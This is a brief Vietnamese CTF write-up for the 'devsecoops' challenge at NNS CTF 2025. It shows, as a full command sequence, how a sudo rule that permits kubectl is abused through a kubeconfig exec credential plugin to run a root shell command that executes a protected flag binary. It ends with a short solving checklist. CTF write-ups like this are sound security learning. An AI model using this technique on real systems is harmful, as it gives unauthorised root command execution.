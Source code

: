 # devsecoops (pwn/misc) — NNS CTF 2025

> Bản tóm tắt. Xem bản đầy đủ ở repo MkDocs nếu bạn đã dùng trước đó.

## 0) Metadata
- OS/Arch: Linux (BusyBox) x86_64 (container)
- Tools: sudo 1.9.17p2, kubectl (ELF64)
- Artefact: sudo chỉ cho `/usr/bin/kubectl`

## 1) Ý đồ tác giả
- Lợi dụng **kubectl exec credential plugin** để thực thi client-side khi xác thực.
- Tất cả network/ENV bị chặn là **gợi ý loại trừ** các hướng sai.

## 2) WU (rút gọn)
```bash
sudo kubectl config set-cluster dummy --server=https://127.0.0.1:6443
sudo kubectl config set-credentials exploit   --exec-command=ash --exec-arg=-c   --exec-arg='chmod 500 /root/secretdirectorydonttouch/ && /root/secretdirectorydonttouch/flag > /tmp/flag'   --exec-api-version=client.authentication.k8s.io/v1beta1
sudo kubectl config set-context dummy --cluster=dummy --user=exploit
sudo kubectl config use-context dummy
sudo kubectl get pods  # kích hoạt payload (dù lỗi mạng), nhưng /tmp/flag đã được tạo
cat /tmp/flag
```

## 3) Key insight (⚑)
`flag` là **executable**, cần `chmod +x` rồi **chạy**, không phải “đọc”.

## 4) Checklist
- [ ] Đọc kỹ `sudo -l` (NOPASSWD, env_policy).
- [ ] Nếu mạng chặn → tập trung client-side.
- [ ] Nếu ENV chặn → xem **kubeconfig exec plugin**.
